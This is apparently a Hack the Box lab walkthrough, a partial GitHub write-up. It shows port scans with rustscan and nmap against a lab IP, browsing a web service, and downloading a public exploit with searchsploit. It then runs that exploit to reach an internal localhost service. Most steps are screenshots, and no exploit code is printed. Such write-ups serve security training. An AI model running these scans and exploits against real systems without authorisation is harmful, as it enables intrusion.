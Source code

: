 ```
rustscan -a 10.10.11.224 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/eb7f80db-8ea9-414a-9854-1341815a5d8b)

```
nmap -Pn -sC -sV -p 22,55555 10.10.11.224
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3940691b-cf5c-4028-99fe-e2e498ce1d8e)

HTTP 55555
```
http://10.10.11.224:55555/web
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d765624b-9fbf-476d-9ef9-ffbced68b099)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/79f69a5d-4089-415f-a730-95af922adc0a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/90cf2208-534e-48e8-ac26-f19e52370a7d)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e3295c04-4b3e-47ca-9d22-bbcb09054e93)

Search Exploits
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/133c49dc-5684-4ead-ab67-a918ada9b649)

Download Exploit
```CSS
searchsploit -m python/webapps/51675.sh
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22c3d009-796c-4673-b744-f4fc250d2903)

Run Exploit
```CSS
/51675.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/21037b3a-2ebd-4701-97e3-716eab11b387)

```

